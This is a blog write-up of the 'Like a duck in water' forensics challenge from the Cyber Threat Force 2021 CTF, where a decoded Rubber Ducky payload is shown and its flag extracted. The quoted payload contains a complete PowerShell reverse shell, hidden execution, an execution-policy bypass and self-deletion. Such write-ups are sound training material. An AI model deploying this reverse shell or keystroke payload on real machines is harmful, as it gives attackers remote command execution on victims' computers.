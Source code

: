 ```yaml
---
title: "Writeup Cyber Threat Force : Like a duck in water"
date: 2021-07-11T09:24:09+01:00
draft: false
tags: ["blog", "security", "ctf", "cyber-threat-force", "forensic"]
type: "posts"
showDate: true
---
```


Note: I did not solve this challenge during the CTF, but my teammate [Lukho](https://twitter.com/lukhooo) did.

For this challenge, we were given an `inject.bin` file, which contains an encoded [Rubber Ducky](https://hak5.org/products/usb-rubber-ducky-deluxe) payload. We can use the [Duck Toolkit](https://ducktoolkit.com/encode) to get back the original code:

```text
DELAY
DELAY
powershell Start-Process notepad -Verb runAsENTER
DELAY
DELAY
ENTER
DELAY
mDELAY
DOWNARROW
...
DOWNARROW
ENTER
$folderDateTime = (get-date).ToString('d-M-y HHmmss')ENTER
...
Add-Content "$env:TEMP\72794.ps1" '$c = New-Object System.Net.Sockets.TCPClient("CYBERTF{D0N4LD_DUC|<}",443);$s = $c.GetStream();[byte[]]$b = 0..255|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2  = $sb + "PS " + (pwd).Path + "> ";$sby = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()};$c.Close()'ENTER
start-Process powershell.exe -windowstyle hidden "$env:TEMP\72794.ps1"ENTER
$Report >> $fileSaveDir'/ComputerInfo.html'ENTER
function copy-ToZip($fileSaveDir){ENTER
$srcdir = $fileSaveDirENTER
$zipFile = 'C:\Windows\Temp\report.txt\Report.zip'ENTER
if(-not (test-path($zipFile))) {ENTER
set-content $zipFile ("PK" + [char]5 + [char]6 + ("$([char]0)" * 18))ENTER
(dir $zipFile).IsReadOnly = $false}ENTER
$shellApplication = new-object -com shell.applicationENTER
$zipPackage = $shellApplication.NameSpace($zipFile)ENTER
$files = Get-ChildItem -Path $srcdirENTER
foreach($file in $files) {ENTER
$zipPackage.CopyHere($file.FullName)ENTER
while($zipPackage.Items().Item($file.name) -eq $null){ENTER
Start-sleep -seconds 1 }}}ENTER
copy-ToZip($fileSaveDir)ENTER
remove-item $fileSaveDir -recurseENTER
Remove-Item $MyINvocation.InvocationNameENTER
DELAY
C:\Windows\config-72794.ps1ENTER
DELAY
DELAY
DELAY
powershell Start-Process cmd -Verb runAsENTER
DELAY
DELAY
mode con:cols=14 lines=1ENTER
DELAY
mDELAY
DOWNARROW
...
DOWNARROW
ENTER
powershell Set-ExecutionPolicy 'Unrestricted' -Scope CurrentUser -Confirm:$falseENTER
DELAY
powershell.exe -windowstyle hidden -File C:\Windows\config-72794.ps1ENTER
```

We can see that last powershell command, which launches a file that was previously written. The content of that file is:

```powershell
$c = New-Object System.Net.Sockets.TCPClient("CYBERTF{D0N4LD_DUC|<}",443);$s = $c.GetStream();[byte[]]$b = 0..255|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2  = $sb + "PS " + (pwd).Path + "> ";$sby = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()};$c.Close()
```

The flag is `CYBERTF{D0N4LD_DUC|<}`.

You can [view the sources on github](https://github.com/vivescere/ctf/tree/main/cyber-threat-force-2021/forensic/like-a-duck-in-water) or [read other writeups](/blog/cyber-threat-force-ctf/).
